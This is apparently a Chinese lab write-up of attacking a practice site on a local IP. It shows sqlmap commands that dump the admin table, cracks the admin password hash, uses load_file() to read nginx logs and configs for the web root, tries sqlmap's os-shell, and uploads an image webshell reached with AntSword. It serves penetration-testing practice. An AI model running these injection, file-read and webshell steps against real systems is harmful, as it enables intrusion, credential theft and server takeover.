# 模拟真实网站的sqli靶场
## 网站环境概览

*总体来说是一个功能点非常多的站点*

## 探测可能存在漏洞的功能点
>由于功能点太多，所以我选择用AI探测sql注入点

最终AI探测出

- 注入点为http://192.168.162.128:8888/?type=product&M_id=13

- 时间盲注

## 获取数据库中的数据
>用sqlmap爆破

### 爆库名

**sqlmap -u "http://192.168.162.128:8888/?type=product&M_id=13" --batch --dbs**


应该是fh100
### 爆表名

**sqlmap -u "http://192.168.162.128:8888/?type=product&M_id=13" --batch -D "fh100" --tables**


可疑表名：sl_admin

### 爆字段名

**D:\apptools\python3.10.6\python.exe sqlmap.py -u "http://192.168.162.128:8888/?type=product&M_id=13" --batch -D "fh100" -T "sl_admin" --columns**


可疑字段：A_login，A_pwd

### 爆用户名密码

**D:\apptools\python3.10.6\python.exe sqlmap.py -u "http://192.168.162.128:8888/?type=product&M_id=13" --batch -D "fh100" -T "sl_admin" -C "A_login,A_pwd" --dump**



## 登录后台
### 破解md5hash
>cmd5在线工具破解


用户名：admin
密码：admin@1234

### 找到管理员登录界面
>猜出来的后台登录地址admin/login.php


成功登录后台

## 拓展：通过sql注入漏洞，写入木马，获取服务器权限
### 必须具备的条件

- 数据库用户必须是高权限（DBA 或 FILE 权限）

    - 为什么需要？
        
        - INTO OUTFILE 和 LOAD_FILE() 都属于 FILE 权限，只有高权限用户才能执行。普通 Web 应用使用的数据库账户通常只有 SELECT/INSERT/UPDATE/DELETE，没有 FILE 权限。

    - 如何验证？

        - 用 sqlmap 直接验证 --is-dba
        
        - 在 SQL Shell 中手动验证SELECT user();

- MySQL 的 secure_file_priv 必须无限制
  
    - 为什么需要？

        - MySQL 的 secure_file_priv 变量限制 LOAD_FILE() 和 INTO OUTFILE 可以操作哪些目录。
        
        - 如何验证？
        
          - SELECT @@secure_file_priv;
        
        - 能否修改 secure_file_priv？

          - 不能通过 SQL 动态修改，只能在 MySQL 配置文件（my.cnf 或 my.ini）中修改，且需要重启 MySQL 服务

- 知道网站根目录

        - 为什么需要？

          - INTO OUTFILE 需要完整的绝对路径，比如 /var/www/html/shell.php。如果只写 shell.php，MySQL 会默认写到数据库数据目录（通常是 /var/lib/mysql/），那里 Web 服务访问不到，根本没用。

        - 如何获取绝对路径？

          - 通过 sqlmap 自动枚举（强力推荐）
          
          - 读取 Web 服务器配置文件

          - 读取 PHP 错误日志
          
          - 触发 404 或错误页面
         
          - 读取 PHP 探针或默认文件

- PHP 环境配置必须宽松

        - 为什么需要？

          - 即使写入了 WebShell，如果 PHP 禁用了危险函数，Shell 也无法执行系统命令。

        - 关键 PHP 配置项

### 信息收集
>浏览器插件收集+sqlmap收集



**网站是用Php写的，web服务器用的是Nginx**

*先进入数据库交互模式D:\apptools\python3.10.6\python.exe sqlmap.py -u "http://192.168.162.128:8888/?type=product&M_id=13" --sql-shell*



查看用户身份：SELECT user();

**root用户有FILE权限**

查看是否可以写文件：SELECT @@secure_file_priv;


**可以写入任意目录文件**

*查找网站根目录*

- 访问错误路径

  - 
  
  - 没有泄露路径

- ②读取 PHP 错误日志

  - SELECT load_file('/var/log/nginx/error.log');

  - 
  
  - 没有泄露  

- 利用load_file()函数尝试通过泄露配置文件查找网站根目录：
  
  - SELECT load_file('/etc/nginx/sites-enabled/default');
  
    - 
    
  - SELECT load_file('/etc/nginx/nginx.conf');

    - 
    
    - 成功泄露网站根目录： /var/www/html

**网站根目录：/var/www/html**

### 写入Webshell

>使用sqlmap写入木马

**D:\apptools\python3.10.6\python.exe sqlmap.py -u "http://192.168.162.128:8888/?type=product&M_id=13" --os-shell --web-root="/var/www/html"**




*但是试了好几种方法好像，没办法用sqlmap成功写入文件*

>通过已经登录的后台找文件上传点



找到上传点并上传图片马


访问刚刚上传的图片马，可以正常访问

**蚁剑连接**